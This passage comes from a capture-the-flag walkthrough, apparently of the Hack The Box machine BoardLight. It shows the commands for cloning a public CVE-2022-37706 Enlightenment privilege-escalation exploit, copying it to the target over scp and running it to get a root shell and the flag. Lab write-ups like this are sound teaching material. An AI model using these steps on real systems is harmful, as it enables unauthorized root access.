 it looks like it is looking for high-permission directories using enlightenment, creating a directory in tmp, opening up shell, and we then have a shell.

Just recreate the steps from earlier to copy the exploit script to your local machine:

``` bash
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
cd CVE-2022-37706-LPE-exploit/
chmod +x exploit.sh 
```

Now to copy the file over, I am going to use SCP to put it on the server using the larissa account:

```
scp exploit.sh larissa@board.htb:/home/larissa
```

now we go back to our ssh session and run the exploit:

![](assets/img/htb_boardlight/Screenshot_From_2024-09-23_03-16-21.png)

now navigate to /root and open up root.txt to get the flag.

Hoped this helped. Happy Hacking!

